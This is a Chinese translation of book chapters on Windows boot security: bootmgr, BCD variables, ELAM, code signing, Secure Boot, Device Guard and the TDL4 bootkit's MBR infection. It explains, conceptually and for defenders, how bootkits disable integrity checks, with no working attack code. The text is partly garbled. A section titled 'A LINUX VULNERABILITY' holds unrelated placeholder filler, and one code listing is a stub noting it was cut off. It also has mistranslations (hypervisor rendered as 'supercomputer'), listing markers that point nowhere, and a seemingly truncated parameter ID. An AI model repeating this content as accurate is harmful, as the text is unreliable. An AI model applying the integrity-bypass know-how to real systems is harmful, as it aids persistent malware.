

*图 5-5: Windows 10 中的 `bootmgr` 启动菜单*

##### 实模式与保护模式

计算机首次通电时，CPU 在 `real mode`（实模式）下运行，这是一种使用 16 位内存模型的传统执行模式，其中 RAM 中的每个字节由由两个字（2 字节）组成的指针寻址：`segment_start`:`segment_offset`。这种模式对应 `segment memory model`（段内存模型），地址空间被划分为段。每个目标字节的地址由段地址和目标字节在段内的偏移量描述。这里，`segment_start` 指定目标段，`segment_offset` 是目标段中引用字节的偏移量。

实模式寻址方案只允许使用少量可用系统 RAM。具体来说，内存中的真实（物理）地址计算为最大地址 `ffff:ffff`，仅为 1,114,095 字节（65,535 × 16 + 65,535），意味着实模式下的地址空间限制在约 1 MB 左右——显然不足以满足现代操作系统和应用程序的需求。为了绕过此限制并访问所有可用内存，`bootmgr` 和 `winload.exe` 在 `bootmgr` 接管后将处理器切换到 `protected mode`（保护模式）（在 64 位系统上称为 `long mode`）。

`bootmgr` 模块由 16 位实模式代码和一个压缩的 PE 镜像组成，解压后在保护模式下执行。16 位代码从 `bootmgr` 镜像中提取并解压 PE，将处理器切换到保护模式，并将控制权传递给解压后的模块。

**NOTE**

`Bootkits` 必须正确处理处理器执行模式切换，以保持对启动代码执行的控制。切换后，整个内存布局发生变化，之前位于一组连续内存地址的代码部分可能被移动到不同的内存段。`Bootkits` 必须实现相当复杂的功能来绕过此限制并保持对启动过程的控制。

##### BCD 启动变量

一旦 `bootmgr` 初始化保护模式，解压后的镜像接收控制权并从 `BCD` 加载启动配置信息。当存储在硬盘上时，`BCD` 与注册表配置单元具有相同的布局。（要浏览其内容，请使用 `regedit` 并导航到键 `HKEY_LOCAL_MACHINE\BCD000000`。）

**NOTE**

`为了从硬盘读取数据，` `bootmgr` `在保护模式下运行时，` 使用 `INT 13h` 磁盘服务，该服务旨在实模式下运行。为此，`bootmgr` 将处理器的执行上下文保存在临时变量中，暂时切换到实模式，执行 `INT 13h` 处理程序，然后返回保护模式，恢复保存的上下文。

`BCD` 存储包含 `bootmgr` 加载操作系统所需的所有信息，包括包含要加载的操作系统实例的分区路径、可用的启动应用程序、代码完整性选项，以及指示操作系统以预安装模式、安全模式等加载的参数。

表 5-1 显示了引导套件作者最感兴趣的 `BCD` 参数。

**表 5-1：** BCD 启动变量

| **变量名** | **描述** | **参数类型** | **参数 ID** |
| --- | --- | --- | --- |
| `BcdLibraryBoolean_DisableIntegrityCheck` | 禁用内核模式代码完整性检查 | Boolean | `0x16000048` |
| `BcdOSLoaderBoolean_WinPEMode` | 告知内核以预安装模式加载，副作用是禁用内核模式代码完整性检查 | Boolean | `0x26000022` |
| `BcdLibraryBoolean_AllowPrereleaseSignatures` | 启用测试签名（`TESTSIGNING`） | Boolean | `0x1600004` |

变量 `BcdLibraryBoolean_DisableIntegrityCheck` 用于禁用完整性检查并允许加载未签名的内核模式驱动程序。此选项在 Windows 7 及更高版本中被忽略，且如果启用了 `Secure Boot`（见第 17 章），则无法设置。

变量 `BcdOSLoaderBoolean_WinPEMode` 指示系统应以 Windows 预安装环境模式启动，这本质上是一个服务有限的最小 Win32 操作系统，主要用于为 Windows 安装准备计算机。此模式也会禁用内核完整性检查，包括 64 位系统上强制执行的内核模式代码签名策略。

变量 `BcdLibraryBoolean_AllowPrereleaseSignatures` 使用测试代码签名证书加载用于测试目的的内核模式驱动程序。这些证书可通过 Windows 驱动工具包中包含的工具生成。（`Necurs` 根套件使用此过程将恶意内核模式驱动程序安装到系统上，并使用自定义证书签名。）

检索启动选项后，`bootmgr` 执行自我完整性验证。如果检查失败，`bootmgr` 停止启动系统并显示错误消息。然而，如果 `BCD` 中将 `BcdLibraryBoolean_DisableIntegrityCheck` 或 `BcdOSLoaderBoolean_WinPEMode` 设置为 `TRUE`，`bootmgr` 不会执行自我完整性检查。因此，如果任一变量为 `TRUE`，`bootmgr` 就不会注意到它是否已被恶意代码篡改。

加载所有必要的 `BCD` 参数并通过自我完整性验证后，`bootmgr` 选择要加载的启动应用程序。从硬盘全新加载操作系统时，`bootmgr` 选择 `winload.exe`；从休眠恢复时，`bootmgr` 选择 `winresume.exe`。这些相应的 PE 模块负责加载和初始化操作系统内核模块。`bootmgr` 以相同方式检查启动应用程序的完整性，同样如果 `BcdLibraryBoolean_DisableIntegrityCheck` 或 `BcdOSLoaderBoolean_WinPEMode` 为 `TRUE` 则跳过验证。

在启动过程的最后一步，用户选择要加载的特定操作系统实例后，`bootmgr` 加载 `winload.exe`。一旦所有模块正确初始化，`winload.exe`（图 5-2 第 5 层）将控制权传递给操作系统内核，后者继续启动过程（第 6 层）。与 `bootmgr` 一样，`winload.exe` 检查其负责的所有模块的完整性。许多引导套件试图绕过这些检查，以将恶意模块注入操作系统内核模式地址空间。

当 `winload.exe` 接管操作系统启动控制权时，它在保护模式下启用分页，然后加载操作系统内核镜像及其依赖项，包括以下模块：

*   `bootvid.dll`：启动时视频 VGA 支持库
*   `ci.dll`：代码完整性库
*   `clfs.dll`：通用日志文件系统驱动程序
*   `hal.dll`：硬件抽象层库
*   `kdcom.dll`：内核调试器协议通信库
*   `pshed.dll`：平台特定硬件错误驱动程序

`winload.exe` 除了加载这些模块外，还加载启动驱动程序，包括存储设备驱动程序、早期防恶意软件（`ELAM`）模块（详见 **第 6 章**），以及系统注册表 hive。

**NOTE**

*为了从硬盘读取所有组件，`winload.exe` 使用 `bootmgr` 提供的接口。该接口依赖于 BIOS `INT 13h` 磁盘服务。因此，如果 `INT 13h` 处理程序被引导根套件（`bootkit`）钩取，恶意软件就可以伪造 `winload.exe` 读取的所有数据。*

加载可执行文件时，`winload.exe` 依据系统的代码完整性策略验证其完整性。加载完所有模块后，`winload.exe` 将控制权转移给操作系统内核映像，以初始化它们，如下文所述章节讨论。

### Conclusion

本章节，你学习了早期启动阶段的 `MBR` 和 `VBR`，以及从引导根套件（`bootkit`）威胁的视角出发，了解了关键启动组件 `bootmgr` 和 `winload.exe`。

正如你所见，在启动过程的不同阶段之间转移控制并不是简单地直接跳转到下一阶段。相反，通过多种数据结构（如 `MBR` 分区表、`VBR` BIOS 参数块、`BCD`）相互关联的多个组件决定了预启动环境中的执行流。这种非平凡的关联是引导根套件（`bootkits`）之所以如此复杂，以及它们需要对启动组件进行大量修改才能在原始启动代码和自身之间转移控制（有时甚至来回切换，以完成关键任务）的原因。

在下一章节，我们将重点讨论启动过程的安全性，重点在于早期防恶意软件（`ELAM`）模块以及微软内核模式代码签名策略，这些策略击败了早期根套件（`rootkits`）的方法。

## 第 6 章：早期启动反恶意软件模块

### The Early Launch Anti-Malware Module

早期防恶意软件（`ELAM`）模块是 Windows 系统的一个检测机制，它允许第三方安全软件（如防病毒软件）注册一个在启动过程极早阶段（在任何其他第三方驱动程序加载之前）必定执行的内核模式驱动程序。因此，当攻击者尝试将恶意组件加载到 Windows 内核地址空间时，安全软件可以在 `ELAM` 驱动程序已激活时检查并阻止该恶意驱动程序加载。

#### API 回调例程

`ELAM` 驱动程序注册 *回调*例程，供内核用于评估注册表 hive 中的数据以及启动驱动程序。这些回调检测恶意数据和模块，并阻止它们被 Windows 加载和初始化。

Windows 内核通过实现以下 API 例程来注册和注销这些回调：

*   `CmRegisterCallbackEx` **和** `CmUnRegisterCallback`：用于注册和注销用于监控注册表数据的回调
*   `IoRegisterBootDriverCallback` **和** `IoUnRegisterBootDriverCallback`：用于注册和注销用于启动驱动的回调

这些回调例程的原型为 `EX_CALLBACK_FUNCTION`，如清单 6-1 所示。

```c
NTSTATUS EX_CALLBACK_FUNCTION(  
    IN PVOID CallbackContext,  
    IN PVOID Argument1,        // 回调类型  
    IN PVOID Argument2         // 系统提供的上下文结构  
);
```

*清单 6-1: ELAM 回调原型*

参数 `CallbackContext` ➊ 是 `ELAM` 驱动程序执行上述任一回调注册后收到的上下文。该上下文是指向一个内存缓冲区的指针，缓冲区保存 `ELAM` 驱动程序特定的参数，可供任何回调例程访问。该指针同时用于存储 `ELAM` 驱动程序的当前状态。参数 ➋ 提供回调类型，可能是以下任一用于启动驱动程序：

*   `BdCbStatusUpdate`：用于向 `ELAM` 驱动程序提供关于加载依赖项或启动驱动程序的状态更新
*   `BdCbInitializeImage`：用于让 `ELAM` 驱动程序对启动驱动程序及其依赖项进行分类

##### 启动驱动程序的分类

参数 ➌ 提供操作系统用于对启动驱动程序进行分类的信息，分类为 *已知良好*（已知合法且干净的驱动程序）、*未知*（`ELAM` 无法分类的驱动程序）和 *已知恶意*（已知恶意的驱动程序）。

`ELAM` 驱动程序必须基于有限的驱动程序镜像信息来进行分类，具体包括：

*   镜像的名称
*   注册为启动驱动程序的注册表位置
*   镜像证书的发布者和颁发者
*   镜像的哈希值及其哈希算法名称
*   证书指纹及其指纹算法名称

`ELAM` 驱动程序不会收到镜像的基地址，也无法在硬盘上访问二进制镜像，因为存储设备驱动堆栈尚未初始化（系统尚未完成启动）。它只能依据镜像的哈希值和证书信息做出加载驱动程序的决策。因此，此阶段对驱动程序的保护效果并不强。

##### ELAM 策略

Windows 依据注册表键 `HKLM\System\CurrentControlSet\Control\EarlyLaunch\DriverLoadPolicy` 中指定的 `ELAM` 策略决定是否加载已知恶意或未知驱动程序。

表 6-1 列出了 `ELAM` 策略的取值，用于决定哪些驱动程序可以加载。

**表 6-1：** ELAM 策略取值

| **策略名称** | **策略值** | **描述** |
| --- | --- | --- |
| `PNP_INITIALIZE_DRIVERS_DEFAULT` | `0x00` | 仅加载已知良好驱动程序。 |
| `PNP_INITIALIZE_UNKNOWN_DRIVERS` | `0x01` | 仅加载已知良好和未知驱动程序。 |
| `PNP_INITIALIZE_BAD_CRITICAL_DRIVERS` | `0x03` | 加载已知良好、未知以及已知恶意的关键驱动程序。（这是默认设置。） |
| `PNP_INITIALIZE_BAD_DRIVERS` | `0x07` | 加载所有驱动程序。 |

如上所述，默认 `ELAM` 策略 `PNP_INITIALIZE_BAD_CRITICAL_DRIVERS` 允许加载已知恶意的关键驱动程序。原因在于关键系统驱动是操作系统的必备组成部分，若其初始化失败，系统将无法启动；即系统只有在所有关键驱动成功加载并初始化后才能启动。因此，该策略在可用性和服务性上牺牲了一些安全性。

然而，该策略不会加载已知恶意的非关键驱动程序，或那些即使不加载也能使系统正常启动的驱动程序。这正是 `PNP_INITIALIZE_BAD_CRITICAL_DRIVERS` 与 `PNP_INITIALIZE_BAD_DRIVERS` 策略的主要区别：后者允许加载所有驱动程序，包括已知恶意的非关键驱动程序。

#### 引导根套件如何绕过 ELAM

`ELAM` 给安全软件带来了对 `rootkit` 威胁的优势，但对 `bootkit` 没有优势——它本来也不是为此设计的。`ELAM` 只能监控已合法加载的驱动程序，而大多数 `bootkit` 会加载使用未记录操作系统特性的内核模式驱动程序。这意味着 `bootkit` 可以绕过安全强制执行，并在内核地址空间中注入代码，尽管有 `ELAM`。此外，如图 6-1 所示，`bootkit` 的恶意代码在操作系统内核初始化之前、以及任何内核模式驱动程序（包括 `ELAM`）加载之前就已运行，这表明 `bootkit` 可以绕过 `ELAM` 的保护。



*图 6-1: 带有 ELAM 的启动过程流程*

大多数 `bootkit` 在内核初始化的中间阶段加载其内核模式代码，此时所有操作系统子系统（I/O 子系统、对象管理器、即插即用管理器等）已初始化，但 `ELAM` 尚未执行。`ELAM` 当然无法防止在其执行之前已经加载的恶意代码运行，因此它对 `bootkit` 技术没有防御措施。

### Microsoft Kernel-Mode Code Signing Policy

内核模式代码签名策略通过要求仅允许已签名的模块加载到内核地址空间来保护 Windows 操作系统。该策略极大地降低了 `bootkit` 和 `rootkit` 通过执行内核模式驱动程序来 compromise 系统的风险，从而迫使 `rootkit` 开发者转向 `bootkit` 技术。遗憾的是，如前文所述，攻击者可以通过操纵少量与启动配置选项相对应的变量，完全禁用加载时签名验证的逻辑。

#### Kernel-Mode Drivers Subject to Integrity Checks

该签名策略于 Windows Vista 引入，并在随后所有 Windows 版本中得到强制执行，但 32 位和 64 位系统的实施方式不同。当内核模式驱动程序加载时，策略会在映射到内核地址空间之前验证其完整性。表 6-2 显示了 64 位和 32 位系统中哪些内核模式驱动程序受完整性检查。

**表 6-2：** Kernel-Mode Code Signing Policy Requirements

| **Driver type** | **Subject to integrity checks?** |
| --- | --- |
| | **64-bit** | **32-bit** |
| `Boot-start drivers` | `Yes` | `Yes` |
| `Non-boot-start PnP drivers` | `Yes` | `No` |
| `Non-boot-start, non-PnP drivers` | `Yes` | `No (except drivers that stream protected media)` |

如表所示，在 64 位系统上，所有内核模式模块无论类型均受完整性检查；而在 32 位系统上，签名策略仅适用于启动时加载的驱动和媒体驱动；其他驱动（PnP 设备安装时通过安装时签名要求）不受检查。

为满足代码完整性要求，驱动必须包含嵌入式发布者证书（`SPC`）数字签名或带有 `SPC` 签名的目录文件。启动时加载的驱动只能使用嵌入式签名，因为在启动阶段存储设备驱动程序栈未初始化，导致目录文件不可访问。

#### Location of Driver Signatures

嵌入式驱动签名位于 PE 文件（如启动时加载的驱动）的 PE 头部的 `IMAGE_DIRECTORY_DATA_SECURITY` 条目中。Microsoft 提供 API 用于枚举并获取镜像中所有证书的信息，如清单 6-2 所示。

```c
// Placeholder for Listing 6-2 content as it was cut off in source
```


BOOL ImageEnumerateCertificates(
    _In_ HANDLE FileHandle,
    _In_ WORD TypeFilter,
    _Out_ PDWORD CertificateCount,
    _Inout_ PDWORD Indices,
    _In_opt_ DWORD IndexCount
);

BOOL ImageGetCertificateData(
    _In_ HANDLE FileHandle,
    _In_ DWORD CertificateIndex,
    _Out_ LPWIN_CERTIFICATE Certificate,
    _Inout_ PDWORD RequiredLength
);

*Listing 6-2: Microsoft's API for enumerating and validating certificates*

内核模式代码签名策略提升了系统的安全韧性，但也有局限性。下面讨论这些不足以及恶意作者如何利用它们绕过防护。

## `PLUG AND PLAY DEVICE INSTALLATION SIGNING POLICY`

除了内核模式代码签名策略外，Microsoft Windows 还有另一种签名策略：即插即用（Plug and Play）设备安装签名策略。二者不可混淆。

即插即用设备安装签名策略的要求仅适用于即插即用（PnP）设备驱动程序，旨在验证发布者身份和 PnP 驱动程序包的完整性。验证要求驱动包的目录文件必须由 Windows Hardware Quality Labs（WHQL）证书或第三方 SPC 签名。如果驱动包不符合 PnP 策略要求，系统会弹出警告对话框，让用户决定是否允许该驱动包安装。

系统管理员可以禁用 PnP 策略，从而让 PnP 驱动包在系统上安装而无需正确签名。需要注意的是，该策略仅在驱动包安装时生效，而非在加载时生效。虽然这看似是 TOCTOU（时间检查到时间使用）漏洞，但并非如此；它仅表示成功安装的 PnP 驱动包不一定会被加载，因为它们同样在启动时受内核模式代码签名策略的检查。

## `The Legacy Code Integrity Weakness`

内核模式代码完整性策略的执行逻辑在 Windows 内核映像和内核模式库 `ci.dll` 之间共享。内核映像使用该库验证所有被加载到内核地址空间的模块的完整性。该签名过程的关键弱点在于一个单点故障。

在 Microsoft Windows Vista 与 7 中，一个单一变量 `nt!g_CiEnabled` 决定是否执行完整性检查。其初始化过程如下：

```
BOOL nt!g_CiEnabled
```

该变量在启动阶段的内核例程 `NTSTATUS SepInitializeCodeIntegrity()` 中初始化。操作系统在启动时会检查是否处于 Windows 预安装（WinPE）模式，若是，则 `nt!g_CiEnabled` 被设为 `FALSE`（0x00），从而禁用完整性检查。

因此，攻击者可以通过将 `nt!g_CiEnabled` 设为 `FALSE` 来轻易规避完整性检查，这正是 2011 年 Uroburos 家族（也称为 Snake 和 Turla）所做的。Uroburos 通过利用第三方驱动的漏洞，在获得内核模式代码执行权限后，将 `nt!g_CiEnabled` 的值清零，从而让任何未签名的恶意驱动可以被加载到系统中。

## `A LINUX VULNERABILITY`

进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`。

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

Secure Boot 技术在 Windows 8 中被引入，用于保护启动过程免受引导程序感染。Secure Boot 利用统一可扩展固件接口 (UEFI) 阻止未经有效数字签名数字签名的启动应用程序或驱动程序加载和执行，以保护操作系统内核、系统文件和启动关键驱动程序的完整性。Figure 6-2 显示启用 Secure Boot 后的启动过程。



*Figure 6-2: The flow of the boot process with Secure Boot*

启用 Secure Boot 时，BIOS 在系统启动时验证所有 UEFI 和操作系统启动文件的完整性，确保它们来自合法来源并具有有效的数字签名。Secure Boot 在 `winload.exe` 和作为 Secure Boot 验证一部分的 ELAM 驱动程序中检查所有启动关键驱动程序的签名。Secure Boot 类似于 Microsoft 内核模式代码签名策略，但它适用于在操作系统内核加载和初始化之前执行的模块。因此，未经授权的组件（即没有有效签名的组件）将不会加载，并会触发修复措施。

系统首次启动时，Secure Boot 确保预启动环境和启动加载程序组件未被篡改。启动加载程序随后验证内核和启动驱动程序的完整性。一旦内核通过完整性验证，Secure Boot 会验证其他驱动程序和模块。根本上，Secure Boot 基于 `root of trust` 的假设——即系统在早期执行时是可信的。当然，如果攻击者在该点之前执行攻击，他们可能已经获胜。

近年来，安全研究社区将大量精力集中在 BIOS 漏洞上，这些漏洞可能允许攻击者绕过 Secure Boot。我们将在 `第 16 章` 中详细讨论这些漏洞，并在 `第 17 章` 中更深入地探讨 Secure Boot。

## `Windows 10 的虚拟化安全`

在 Windows 10 之前，代码完整性机制是系统内核本身的一部分。这意味着完整性机制以与它试图保护的权限级别相同运行。虽然这在许多情况下可能有效，但也意味着攻击者有可能攻击完整性机制本身。为了提高代码完整性机制的有效性，Windows 10 引入了两个新功能：虚拟安全模式 (Virtual Secure Mode) 和设备守护 (Device Guard)，这两者都基于硬件辅助的内存隔离。该技术通常被称为 `Second Level Address Translation`，并且在英特尔（称为扩展页表，EPT）和 AMD（称为快速虚拟化索引，RVI）CPU 中均有提供。

### `Second Level Address Translation`

自 Windows 8 起，Windows 就支持 Second Level Address Translation (SLAT)，并通过 Hyper-V（微软超级计算机）实现。Hyper-V 使用 SLAT 管理虚拟机的内存（例如，访问保护），并减少将虚拟机物理地址（由虚拟化技术隔离的内存）转换为真实物理地址的开销。

SLAT 为超级计算机提供了一个虚拟到物理地址转换的中间缓存，大幅减少超级计算机处理物理内存的翻译请求所需的时间。它也用于 Windows 10 中 Virtual Secure Mode 技术的实现。

### `Virtual Secure Mode and Device Guard`

Virtual Secure Mode (VSM) 虚拟化安全首次出现在 Windows 10，基于微软的 Hyper-V。当 VSM 启用时，操作系统和关键系统模块在隔离的超级计算机保护容器中执行。这意味着即使内核被 compromises，在其他虚拟环境中执行的关键组件仍然安全，因为攻击者无法在受损的虚拟容器之间跳转。VSM 还将代码完整性组件从 Windows 内核本身隔离到超级计算机保护的容器中。

VSM 隔离使得利用漏洞的合法内核模式驱动程序来禁用代码完整性变得不可能（除非发现影响保护机制本身的漏洞）。由于潜在漏洞的驱动和代码完整性库位于不同的虚拟容器中，攻击者不应该能够关闭代码完整性保护。

设备守护 (Device Guard) 技术利用 VSM 防止不受信任的代码在系统上运行。为了提供这些保证，Device Guard 结合了 VSM 保护的代码完整性与平台和 UEFI 安全启动相结合。通过这样做，Device Guard 从启动过程的最初阶段一直执行代码完整性策略，直到加载操作系统内核模式驱动程序和用户模式应用程序。

Figure 6-3 展示了启用虚拟安全模式和设备守护后对 Windows 10 的引导过程对抗引导程序和根程序的影响。Secure Boot 通过验证预启动环境（包括操作系统引导加载程序）中执行的任何固件组件来防范引导程序感染。为了防止恶意代码被注入内核模式地址空间，VSM 将负责强制代码完整性的关键操作系统组件（即在此语境下的 Hypervisor-Enforced Code Integrity，HVCI）与操作系统内核地址空间隔离。



*Figure 6-3: The boot process with Virtual Secure Mode and Device Guard enabled*

### `设备守护在驱动程序开发中的局限性`

Device Guard 对驱动程序开发过程施加了特定的要求和限制，某些现有驱动程序在启用 Device Guard 时无法正常运行。所有驱动程序必须遵循以下规则：

*   从不可执行（NX）非页桌面内存池分配所有非页桌面内存。驱动程序的 PE 模块不能包含既可写入又可执行的部分。
*   不要尝试直接修改可执行的系统内存。
*   不要在内核模式中使用动态或自我修改的代码。
*   不要加载任何数据作为可执行代码。

由于大多数现代根程序和引导程序感染程序不遵循这些要求，即使驱动程序具有有效签名或能够绕过代码完整性保护，它们在启用 Device Guard 时也无法运行。

## `结论`

本章提供了代码完整性保护演进的概述。系统启动过程的安全是防御操作系统免受恶意软件攻击的最重要前沿。ELAM 和代码完整性保护是强大的安全功能，限制了平台上不受信任代码的执行。

Windows 10 将启动过程安全提升到了新的水平，通过使用 VSM 将 HVCI 组件与操作系统内核隔离，防止代码完整性绕过。然而，如果没有启用 Secure Boot，引导程序感染程序可以在加载内核之前攻击系统，从而绕过这些保护措施。在后续章节中，我们将更详细地讨论 Secure Boot，以及用于规避它的 BIOS 攻击技术。

# `7  BOOTKIT INFECTION TECHNIQUES`


在探讨了 Windows 启动过程后，让我们现在讨论针对系统启动模块的引导程序感染技术。这些技术根据它们针对的启动组件分为两类：主引导记录区 (MBR) 感染技术和 VBR/初始程序加载器 (IPL) 感染技术。我们将使用 TDL4 引导程序感染程序来演示 MBR 感染，然后使用 Rovnix 和 Gapz 引导程序感染程序来演示两种不同的 VBR 感染技术。

## `MBR Infection Techniques`

*   基于 MBR 修改的方法是引导程序攻击 Windows 启动过程的最常见感染技术。大多数 MBR 感染技术直接修改 MBR 代码或 MBR 数据（如分区表），或在某些情况下同时修改两者。
*   MBR 代码修改方法**仅**修改 MBR 启动代码，保持分区表不变。这是最直接的感染方式，操作是将系统 MBR 代码覆盖为恶意代码，同时以某种方式（例如在硬盘上隐藏位置）保存原始 MBR 内容。
*   相反，MBR 数据修改方法**不**修改 MBR 启动代码，而是修改 MBR 分区表。该方法更为高级，因为分区表内容因系统而异，难以找到能够唯一标识感染的模式。
*   同时，结合这两种技术的混合方法也有可能，并且已经在野外出现。

接下来，我们将更详细地探讨这两种 MBR 感染技术。

### `MBR Code Modification: The TDL4 Infection Technique`

为了说明 MBR 代码修改感染技术，我们以首次针对 Microsoft Windows 64 位平台的真实引导程序根套件 — — TDL4 为例。TDL4 复用了其前身根套件 TDL3（在 `第 1 章` 中讨论）的高级规避和反法医技术，并增加了绕过内核模式代码签名策略（在 `第 6 章` 中讨论）的能力，能够感染 64 位 Windows 系统。

在 32 位系统上，TDL3 根套件通过修改引导启动的内核模式驱动程序来实现持久化。但 64 位系统强制的签名检查使得被感染的驱动程序无法加载，导致 TDL3 在 64 位环境下失效。

为规避 64 位 Windows，TDL3 开发者将感染点提前到启动过程更早的位置，采用引导程序根套件（bootkit）作为持久化手段，因此 TDL3 发展为 TDL4 引导程序根套件。

#### `Infecting the System`

TDL4 通过将恶意 MBR 覆盖到可引导磁盘的 MBR（该 MBR 在 Windows 内核加载之前执行），从而能够篡改内核映像并禁用完整性检查。其他基于 MBR 的引导程序根套件的详细描述见 `第 10 章`。

与 TDL3 类似，TDL4 在磁盘末尾创建一个隐藏存储区，将原始 MBR 以及部分自身模块写入其中，具体列表见 `表 7-1`。TDL4 保存原始 MBR 以便在感染后重新加载，使系统看起来正常启动。`mbr`、`ldr16`、`ldr32`、`ldr64` 模块在启动时用于绕过 Windows 完整性检查，最终加载未签名的恶意驱动程序。

**表 7-1：** 安全系统时写入 TDL4 隐藏存储区的模块

| **模块名称** | **描述** |
| --- | --- |
| *mbr* | 已感染磁盘引导扇区的原始内容 |
| *ldr16* | 16 位实模式加载代码 |
| *ldr32* | x86 系统的假 `kdcom.dll` 库 |
| *ldr64* | x64 系统的假 `kdcom.dll` 库 |
| *drv32* | x86 系统的主引导程序驱动 |
| *drv64* | x64 系统的主引导程序驱动 |
| *cmd.dll* | 注入 32 位进程的负载 |
| *cmd64.dll* | 注入 64 位进程的负载 |
| *cfg.ini* | 配置信息 |
| *bckfg.tmp* | 加密的命令与控制（C&C）URL 列表 |

TDL4 通过向磁盘 miniport 驱动程序发送 `IOCTL_SCSI_PASS_THROUGH_DIRECT` 控制码请求，直接写入磁盘。该请求绕过标准文件系统过滤驱动程序及其可能包含的防御措施。TDL4 使用 `DeviceIoControl` API 发送请求，第一个参数为打开的符号链接 `\\??\\PhysicalDriveXX` 的句柄（`XX` 为被感染磁盘的编号）。

